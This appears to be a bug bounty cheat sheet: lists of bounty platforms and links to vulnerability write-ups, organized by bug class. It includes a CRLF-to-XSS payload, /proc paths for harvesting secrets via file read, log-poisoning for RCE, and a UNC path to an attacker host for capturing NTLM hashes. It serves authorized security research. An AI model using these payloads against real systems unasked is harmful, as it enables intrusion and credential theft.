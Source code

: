 # Platforms

## Russian

- https://bugbounty.ru
- https://yandex.ru/bugbounty/index
- https://support.kaspersky.ru/vulnerability/overview/12428?el=12429#block2
- https://www.jivo.ru/bugbounty/ 
- https://www.cloud4y.ru/cloud-services/bugbounty/ 
- https://kontur.ru/bugbounty 
- https://ru.liveagent.com/programma-bag-baunti/ 
- https://corp.mamba.ru/ru/developer/security 
- https://love.ru/bugbounty/ 
- https://bugbounty.mts-link.ru/
## Worldwide

- Immunefi
- https://bughunters.google.com/about/rules/5604090422493184/google-play-security-reward-program-rules

# by Schemes

- [Attacking Redis db via CR symbols in `git://` link](https://hackerone.com/reports/441090)
- [A tool](https://github.com/tarunkant/Gopherus) to attack different network services via a `gopher://` link

# by Vulns

## Cross-tenant attacks (related for cloud providers)

- [Finding local orchestrator API via script execution ability](https://orca.security/resources/blog/autowarp-microsoft-azure-automation-service-vulnerability/?ref=danaepp.com)
- [The confused deputy problem](https://securitylabs.datadoghq.com/articles/appsync-vulnerability-disclosure/)
## CRLF Injection

[Session Fixation](https://hackerone.com/reports/15492) via [nginx misconfiguration](http://blog.volema.com/nginx-insecurities.html)

Escalation to XSS: 
```
?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
```

## Local File Read

Read `web.config` file to obtain .NET ViewState's MachineKey and DecryptionKey, which are allow you to do deserialization attacks: https://www.silentgrid.com/blog/local-file-read-to-rce/.

Leak some [juicy OS info](https://www.kernel.org/doc/html/latest/filesystems/proc.html):
- /proc/version - OS Version
- /proc/net/tcp - open TCP ports
- /proc/net/udp - open UDP ports
- /proc/sched_debug - can be used to retrieve running processes
- /proc/mounts - mounted devices
- /proc/[PID]/cmdline - command line that triggered the running process (fuzz pid here)
- /proc/[PID]/environ - environment variables accessible to the process
- /proc/[PID]/cwd - current working directory of the process
- /proc/[PID]/fd/[n] - files opened by the process
- /proc/[PID]/exe - link to the executable file

## Local File Inclusion

Read `../../../../var/log/apache2/access.log` or [same file via proc](https://xen0vas.github.io/Exploiting-the-LFI-vulnerability-using-the-proc-self-stat-method/#) to get RCE via `User-Agent`.

## SSRF

Try `\\attacker.com\test.jpg` links with a running Responder to capture Net-NTLMv2 hashes.

## Open Redirect

Can be escalated when app uses OAuth; redirection can be done using `javascript:` scheme (see https://rdnzx.medium.com/chaining-open-redirect-with-xss-to-account-takeover-36acf218a6d5 and some more payloads for fuzzing in hacktricks).

Redirection is found on reverse proxy and [can move you to internal servises (SSRF)](https://blog.detectify.com/2019/05/16/the-real-impact-of-an-open-redirect/).

## WebView

[RCE via @JavascriptInterface](https://dphoeniixx.medium.com/tiktok-for-android-1-click-rce-240266e78105)

## File upload

Always look for the command injection if you have noticed that your files are edited or converted in some way.

### Image

Basically SVG files can be used to insert arbitary JavaScript code via `script` tag and even entire HTML-markup via the `foreignObject` tag: https://github.com/allanlw/svg-cheatsheet.

If an old version of librsvg is used to convert SVG to PNG, it can cause a [memory leakage](https://hackerone.com/reports/2107680).

### Video

[SSRF-LFR in FFmpeg](https://hackerone.com/reports/1062888)

### XLSX

[XXE](https://hackerone.com/reports/105434)

## Serialization
### PHP

https://habr.com/ru/articles/708384/